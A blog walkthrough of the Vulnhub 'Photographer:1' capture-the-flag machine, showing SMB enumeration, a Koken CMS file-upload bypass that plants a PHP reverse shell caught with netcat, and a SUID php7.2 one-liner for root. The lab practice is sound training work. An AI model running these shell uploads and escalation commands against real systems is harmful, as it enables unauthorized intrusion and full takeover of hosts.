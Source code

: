 ```yaml
---
date: 2020-09-01 00:04:11
layout: post
title: "Photographer 1 Vulnhub Walkthrough"
subtitle:
description: Photographer:1 is a boot2root machine from Vulnhub. This VM is rated easy and good for beginners.
image: /assets/img/uploads/photographer/photographer.webp
optimized_image: /assets/img/uploads/photographer/photographer-optimized.webp
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: vulnhub, photographer ctf, photographer vulnhub walkthrough, photographer 1 vulnhub, photographer vulnhub, photographer walkthrough, photographer writeup, infosecarticles, infosec articles
---
```


Today I will be sharing a walkthrough of Photographer:1 which is a boot2root machine available on Vulnhub. There are two flags and our goal is to read all of them. This includes enumerating samba to find some login information and then exploiting a CVE to upload a php shell and then exploiting a SUID to gain a root shell. I've added the IP to my hosts file, so Let's Begin!

```r
┌──(madhav㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.32    photographer.local
```

## Initial Enumeration

I started the enumeration by running a port scan using nmap to look for open ports and default scripts. 

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ nmap -sC -sV -oA nmap/initial photographer.local
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for photographer.local (192.168.1.32)
Host is up (0.00034s latency).Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  ssl/http-alt Apache/2.4.18 (Ubuntu)
|_http-generator: Koken 0.22.24
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: daisa ahomi
Service Info: Host: PHOTOGRAPHER

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2020-08-27T06:27:22-04:00 
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-27T10:27:22
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.57 seconds
```
We see Samba smbd running on port 139 and 445 and Apache web servers running on port 80 and 8000. I decided to enumerate port 139 and 445 first. First I used <b>smbclient -L</b> to list all the shares available on the server. Just leave the password field blank and press enter.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ smbclient -L photographer.local 
Enter WORKGROUP\madhav's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Next I accessed the <b>sambashare</b> using the smbclient. Inside the share I found two files named <i>mailsent.txt</i> and 
<i>wordpress.bkp.zip.</i> I downloaded both the files using the <b>get</b> command.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ smbclient '\\photographer.local\sambashare'
Enter WORKGROUP\madhav's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 21 07:00:07 2020
  ..                                  D        0  Tue Jul 21 15:14:25 2020
  mailsent.txt                        N      503  Tue Jul 21 06:59:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 06:52:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
smb: \> get mailsent.txt 
getting file \mailsent.txt of size 503 as mailsent.txt (61.4 KiloBytes/sec) (average 61.4 KiloBytes/sec)
smb: \> get wordpress.bkp.zip 
getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip (160044.7 KiloBytes/sec) (average 146282.9 KiloBytes/sec)
smb: \> exit
```

The <b>mailsent.txt</b> appears to be a copy of a mail. We can save the emails and names used in the email which may be useful in future.

<img src="/assets/img/uploads/photographer/mailsent.png">

Also, I tried enumerating the <b>wordpress.bkp.zip.</b> but did not find anything useful there. I suppose that was just a rabbit hole. Next I started enumeration on port 80.

<img src="/assets/img/uploads/photographer/port80.png">

The port 80 seems to run a beautiful website. Unfortunately, I didn't find anything useful here. 

## User Shell

<img src="/assets/img/uploads/photographer/port8000.png">

Next I went to port 8000 for further enumeration. This is the Daisa's website mentioned in the <i>mailsent.txt</i> and we can see that this is built using Koken CMS. The first thing I did after reading was to check on Google if some CVE is available for this CMS. I found an <a href="https://www.exploit-db.com/exploits/48706">exploit</a> which is published by the author of this machine itself :)

<img src="/assets/img/uploads/photographer/koken.png">

To run this exploit, we need to login into the CMS first. The credentials were already with us from the <i>mailsent.txt.</i> I logged in to the Koken CMS with username <i>daisa@photographer.com</i> and password <i>babygirl.</i>

<img src="/assets/img/uploads/photographer/koken-cms.png">

Now we will upload a php reverse shell and follow the steps as mentioned in the <a href="https://www.exploit-db.com/exploits/48706">exploit.</a> I will be using the php reverse shell by <a href="https://github.com/pentestmonkey/php-reverse-shell">pentest monkey.</a> I opened the upload dialog box by clicking on the <i>Import Content</i> button.

<img src="/assets/img/uploads/photographer/upload.png">

After selecting the reverse shell, I opened Burpsuite and configured my browser to connect to the Burp proxy. I turned the Intercept on and clicked on the import button. Then, I changed the name from <b>shell.php.jpg</b> to <b>shell.php</b> in the request as mentioned in the <a href="https://www.exploit-db.com/exploits/48706">exploit.</a>

<img src="/assets/img/uploads/photographer/burp.png">


Once that's complete, you will find a download button on the right, just right click there and choose "Open in New Tab" option. 

<img src="/assets/img/uploads/photographer/download.png">

We got our shell and now we can read our first flag :)

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ nc -lvnp 9001     
listening on [any] 9001 ...
connect to [192.168.1.4] from (UNKNOWN) [192.168.1.32] 39398
Linux photographer 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 12:23:29 up 12 min,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@photographer:/$ cd /home/daisa/
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```
## Privilege Escalation

The privilege escalation for this machine was not that difficult. I started with searching for all the SUID's available.

```r
www-data@photographer:/$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ntfs-3g
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```

We see a php7.2 SUID available, I searched for this on <a gref="https://gtfobins.github.io/gtfobins/php/">GTFO Bins</a> and found the way to escalate our privileges by using the following command.  

```r
www-data@photographer:/$ /usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"
```
After executing, we can read our final flag!

<img src="/assets/img/uploads/photographer/root.png">

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/laurenmayhewlm">Lauren Mayhew.</a>
